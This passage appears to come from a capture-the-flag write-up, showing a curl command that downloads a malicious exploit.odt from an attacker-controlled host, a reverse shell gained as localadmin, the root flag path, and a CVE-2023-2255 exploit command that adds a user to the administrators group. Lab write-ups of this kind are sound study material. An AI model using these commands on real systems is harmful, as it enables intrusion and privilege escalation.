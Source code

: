 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826114314.png)

```
curl 10.10.14.8:8000/exploit.odt -o exploit.odt
```

After few seconds I got reverse shell from localadmin

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826114754.png)

root flag in

```
C:\users\localadmin\desktop\root.txt
```
## Alternative

just run exploit with add mya to administrators

```
python3 CVE-2023-2255.py --cmd 'net localgroup administradores mailing\maya /add' --output 'exploit.odt'
```